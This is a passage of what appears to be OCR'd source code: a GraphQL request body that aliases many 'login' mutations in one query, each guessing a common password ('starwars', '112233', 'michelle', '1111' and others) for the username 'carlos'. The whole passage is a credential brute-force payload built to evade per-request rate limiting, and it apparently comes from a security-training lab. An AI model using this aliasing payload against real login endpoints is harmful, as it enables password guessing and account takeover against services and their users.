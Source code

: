 ```bash
    }


bruteforce53:login(input:{password: "daniel", username: "carlos"}) {
        token
        success
    }


bruteforce54:login(input:{password: "starwars", username: "carlos"}) {
        token
        success
    }


bruteforce55:login(input:{password: "klaster", username: "carlos"}) {
        token
        success
    }


bruteforce56:login(input:{password: "112233", username: "carlos"}) {
        token
        success
    }


bruteforce57:login(input:{password: "george", username: "carlos"}) {
        token
        success
    }


bruteforce58:login(input:{password: "computer", username: "carlos"}) {
        token
        success
    }


bruteforce59:login(input:{password: "michelle", username: "carlos"}) {
        token
        success
    }


bruteforce60:login(input:{password: "jessica", username: "carlos"}) {
        token
        success
    }


bruteforce61:login(input:{password: "pepper", username: "carlos"}) {
        token
        success
    }


bruteforce62:login(input:{password: "1111", username: "carlos"}) {
        token
        success
    }


```